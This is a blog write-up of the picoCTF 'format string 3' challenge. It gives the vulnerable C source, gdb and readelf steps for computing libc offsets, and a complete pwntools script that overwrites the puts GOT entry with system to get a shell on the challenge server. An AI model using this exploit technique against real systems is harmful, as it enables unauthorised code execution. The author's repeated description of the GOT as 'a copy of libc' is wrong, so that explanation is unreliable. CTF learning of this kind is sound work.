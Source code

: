 ```yaml
---
layout: post
title:  Overwriting entries in the Global Offset Table
author: Tom
categories: write-ups
excerpt: "Learning about overwriting GOT entries using the picoCTF format string 3 challenge."
---
```

<br>
<p>
<h2>Overwriting entries in the Global Offset Table using a vulnerable printf function</h2>
This write-up builds on what was learned about exploiting printf vulnerabilities in my write-up on the picoCTF <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> challenge. In the format string 3 challenge there is a similar vulnerability, but this time instead of overwriting a variable within the program it will be used to overwrite a pointer to an entry in the Global Offset Table so that it will call a different libc function.
</p>
<h2>format string 3</h2>
<p>When the program is run, it prints a line which leaks the address of the GOT entry for the <b>setvbuf</b> function and then waits for input:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-1.png">
</p>
<p>
After supplying some input, it then prints two lines; one which repeats the input and another which prints <b>/bin/sh</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-2.png">
</p>
<p>
Here is the source code for this function:<br>
{% highlight ruby %}
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
{% endhighlight %}
</p>
<p>
Looking at the source, we can identify two goals. The main objective will be to overwrite the pointer to the <b>puts</b> function with a pointer to the <b>system</b> function so that instead of printing <b>/bin/sh</b>, the program will make a <b>system</b> call to <b>/bin/sh</b> instead, granting us a shell. To accomplish this, we will need to exploit the vulnerable printf function which repeats user input.
</p>
<h2>The Global Offset Table</h2>
<p>My understanding of the GOT is that it is a copy of libc used by a program which is stored in a random memory location at runtime in order to prevent the type of attack we are performing here. But because we have access to the copy of libc being used and the location of <b>setvbuf</b> has been leaked, we are able to calculate offsets and find the memory locations of other functions within libc.<br><br>
Finding the locations of functions and calculating their offsets can all be accomplished using pwntools, but I wanted to know exactly what was going on under the hood, so I took a look at the libc file which was supplied with this challenge. First, I used the <b>readelf</b> function to find the location of <b>setvbuf</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-4.png">
</p>
<p>
Then, I found the location of <b>system</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-5.png">
</p>
<p>
Finally, I found the difference of the two, which is <b>2ac90</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-6.jpg">
</p>
<p>
To test this theory, I ran the program in gdb and set a breakpoint after the <b>setvbuf</b> leak:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-7.png">
</p>
<p>
Then I subtracted the <b>2ac90</b> offset from the leaked address and looked at the memory in that location:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-8.png">
</p>
<p>
Cool! We've found the location of the <b>system</b> call in memory! Now what points to the <b>puts</b> entry we want to replace?
</p>
<h2>The GOT, PLT, and GOT.PLT</h2>
<h3>GOT</h3>
<p>As previously mentioned, the Global Offset Table (GOT) is a copy of libc stored in a random location in memory. The location of these addresses must be found at runtime, which is why the setvbuf leak in this program is so valuable.
</p>
<h3>PLT</h3>
<p>The Procedure Linkage Table (PLT) is where libc functions are referenced locally in this program. In this example, <b>puts</b> is located at <b>0x401080</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/puts2.png">
</p>
<h3>GOT.PLT</h3>
<p>This is the middle-man where the libc functions which are called locally are linked to the GOT. Here we can see the <b>got.plt</b> entry by examining the instructions following the local call. Looking at the memory in this location you can see the GOT address for <b>puts</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-12.png">
</p>
<p>
Now all we need to do is overwrite this entry with the offset we calculated earlier (the address for <b>system</b> is different because this is a different instance from earlier):<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-13.png">
</p>
<p>
And after some bugginess, we have a shell!<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-14.png">
</p>
<p>
Entering an <b>ls</b> command shows the contents of the local directory where I was working:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-15.png">
</p>
<p>
I believe the errors in the above examples are from the breakpoints I set to examine memory. Unfortunately, because of the dynamic locations which are generated every time the program is run and the fact that the payload can not be crafted manually and sent to the program beforehand, a script must be used to complete this challenge. But at least we have a solid grasp of what is going on behind the scenes.
</p>
<h2>Final Exploit</h2>
<p>I won't go over the breakdown of the printf vulnerability because I already covered that in my <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> write-up, but I used those methods to determine that our printf string is in location 38. Using all of the information we have so far, here is the script I used, adapted from Wiebe Willems's script <a href="https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/">here</a>:<br>
{% highlight ruby %}
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

exe = ELF("./format-string-3") # these 3 lines set up for local execution
context.binary = exe
elf = context.binary = ELF('./format-string-3')

# p = process([exe.path]) # for local execution
p = remote("rhea.picoctf.net", 64162) # for remote execution
        

def main():

    info(p.recvline())              # receives howdy gamers line
    info(p.recvuntil("libc: "))     # receives until setvbuf address
    
    setvbuf_address = p.recvline()  # gets setvbuf address

    setvbuf_value = int(setvbuf_address.split(b"x")[1].strip(),16) # converts input to integer value for calculation

    libc.address = setvbuf_value - libc.symbols['setvbuf'] # calculate libc base address

    payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['system']}) # format string payload; overwrites puts with system

    p.sendline(payload)
    p.clean()
    p.interactive() # gives program control back to user

if __name__ == "__main__":
    main()
{% endhighlight %}
</p>
<p>
After running this script we have a shell on the remote server and can just cat the flag.txt file!<br>
(I wasn't able to do this in the picoCTF webshell and had to use a Kali VM)<br><br>
I hope this was helpful. This challenge was a great way to learn about the Global Offset Table and also get some practice with gdb and pwntools. Reverse engineering and binary exploitation are the most fun things I have learned about so far on my cybersecurity journey!
</p>
